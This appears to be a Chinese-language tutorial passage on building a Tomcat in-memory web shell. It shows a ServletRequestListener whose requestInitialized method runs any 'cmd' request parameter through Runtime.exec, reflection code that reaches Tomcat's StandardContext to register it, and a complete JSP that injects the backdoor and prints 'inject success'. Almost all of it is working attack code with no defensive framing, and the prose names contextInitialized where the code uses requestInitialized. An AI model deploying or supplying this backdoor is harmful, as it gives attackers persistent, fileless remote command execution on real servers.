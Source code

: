 一个简单的 HttpServletRequestListener 示例

```
class S implements ServletRequestListener{    @Override    public void requestInitialized(ServletRequestEvent servletRequestEvent) {        System.out.println("Initialized.");            }    @Override    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {        System.out.println("Destroyed.");    }}
```

在 Listener 中，我们需要在初始化操作 contextInitialized 中填入恶意代码

```
class S implements ServletRequestListener{    @Override    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {            }    @Override    public void requestInitialized(ServletRequestEvent servletRequestEvent) {        String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");        if(cmd != null){            try {                Runtime.getRuntime().exec(cmd);            } catch (IOException e) {}        }    }}
```

动态注册部分
======

获取 context 部分

```
ServletContext servletContext =  request.getSession().getServletContext();Field appctx = servletContext.getClass().getDeclaredField("context");appctx.setAccessible(true);ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);Field stdctx = applicationContext.getClass().getDeclaredField("context");stdctx.setAccessible(true);StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

添加 Listener

```
S servletRequestListener = new S();
standardContext.addApplicationEventListener(servletRequestListener);
```

完整内存马

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %><%@ page import="org.apache.catalina.core.ApplicationContext" %><%@ page import="org.apache.catalina.core.StandardContext" %><%@ page import="javax.servlet.*" %><%@ page import="javax.servlet.annotation.WebServlet" %><%@ page import="javax.servlet.http.HttpServlet" %><%@ page import="javax.servlet.http.HttpServletRequest" %><%@ page import="javax.servlet.http.HttpServletResponse" %><%@ page import="java.io.IOException" %><%@ page import="java.lang.reflect.Field" %><%class S implements ServletRequestListener{    @Override    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {            }    @Override    public void requestInitialized(ServletRequestEvent servletRequestEvent) {        String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");        if(cmd != null){            try {                Runtime.getRuntime().exec(cmd);            } catch (IOException e) {}        }    }}%><%ServletContext servletContext =  request.getSession().getServletContext();Field appctx = servletContext.getClass().getDeclaredField("context");appctx.setAccessible(true);ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);Field stdctx = applicationContext.getClass().getDeclaredField("context");stdctx.setAccessible(true);StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);S servletRequestListener = new S();standardContext.addApplicationEventListener(servletRequestListener);out.println("inject success");%>
```
